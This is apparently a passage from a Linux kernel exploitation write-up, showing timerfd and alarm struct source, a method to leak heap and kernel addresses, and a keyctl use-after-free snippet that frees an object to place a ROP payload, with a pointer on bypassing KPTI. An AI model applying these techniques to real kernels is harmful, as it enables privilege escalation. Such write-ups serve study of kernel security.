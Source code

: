 ```
static enum hrtimer_restart timerfd_tmrproc(struct hrtimer *htmr)
{
	struct timerfd_ctx *ctx = container_of(htmr, struct timerfd_ctx,
					       t.tmr);
	timerfd_triggered(ctx);
	return HRTIMER_NORESTART;
}


```

```
struct alarm
{
    struct timerqueue_node node; // timerqueue node adding to the event list this value also includes the expiration time.
    struct hrtimer timer; // hrtimer used to schedule events while running
    enum alarmtimer_restart (*function)(struct alarm *, ktime_t now); // Function pointer to be executed when the timer fires.
    enum alarmtimer_type type; // Alarm type (BOOTTIME/REALTIME).
    int state; // Flag that represents if the alarm is set to fire or not.
    void *data; // Internal data value.
};


```

The syscall [timerfd_create](https://elixir.bootlin.com/linux/v5.10.77/source/fs/timerfd.c#L412) will create the struct timerfd_ctx with kzalloc (general purpose) with the flag GFP_KERNEL. The struct timerqueue_node will be empty, and their metadata will point to itself (heap address) and the struct hrtimer has the function pointer timerfd_tmrproc (kernel address), we can leak both.

![](https://soez.github.io/assets/images/leak.png)

The ROP final step
------------------

So far, we have already the leak of the heap (file) and kernel address. Therefore, all that remains is to place the ROP in the file address object and close it to trigger it. So first, there is to leave space to the payload, then we are going to free any object that is occupying the file address, for example, we will free the user_key_payload.

```
/* Free the vulnerable object for leave space to the final payload */
keylen = keyctl(KEYCTL_REVOKE, keys[uaf_key], 0, 0, 0);
if (keylen < 0) {
	perror("[-] keyctl");
	exit(0);
}


```

To success the ROP, we have to bypass the kpti. What is this? This means that the user page table (only has the minimal set kernel page table) and the kernel page table are isolated, and one try to return to the user land from the kernel page table will not have success. How to bypass this? [This](https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/) nice write up shows us how.
